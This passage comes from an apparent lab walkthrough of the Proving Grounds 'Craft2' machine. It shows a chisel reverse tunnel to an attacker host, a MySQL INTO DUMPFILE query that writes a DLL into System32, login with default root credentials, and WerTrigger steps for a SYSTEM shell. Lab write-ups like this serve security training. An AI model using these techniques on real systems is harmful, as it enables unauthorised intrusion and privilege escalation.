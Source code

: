 Lets start the client mode also through the machine on port 3306 which is for <mark style="background: #FFF3A3A6;">mysql</mark> service 🔻
```powershell
C:\xampp\htdocs>chisel.exe client 192.168.45.214:8000 R:3306:127.0.0.1:3306
2024/06/15 22:47:13 client: Connecting to ws://192.168.45.214:8000
2024/06/15 22:47:14 client: Connected (Latency 97.9039ms)
```
{: .nolineno}

Lets check with nmap connection is it connected or not 🔻

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ sudo nmap -p 3306 127.0.0.1                                           
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-16 15:23 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000067s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```
{: .nolineno}

**Here I will be using an Escalation Privilege process that will be executed through File write** 🔻

### WerTrigger

> Exploit Privileged File Writes bugs with Windows Problem Reporting
{: .prompt-tips }

1. Clone https://github.com/sailay1996/WerTrigger
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**

Reference : [EoP](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/?source=post_page-----7527b7171183--------------------------------#wertrigger)

Now the main problem was to transfer the content of <mark style="background: #ABF7F7A6;">phoneinfo.dll</mark> into <mark style="background: #FFB86CA6;">C:\windows32\system32</mark> location , How can I do that ?

So that problem will be solved through mysql , Yes Mysql can transfer the file from one location to another but can't rewrite the files through this query 🔻

```sql
SELECT LOAD_FILE('C:\\\\xampp\\htdocs\\abc.dll') INTO DUMPFILE 'C:\\Windows\\System32\\abc.dll';
```
{: .nolineno}

Lets connect to mysql through default creds that is root : ' ' 🔻

```sql
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ mysql -h 127.0.0.1 -u root -p                                                           
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8
Server version: 10.4.19-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```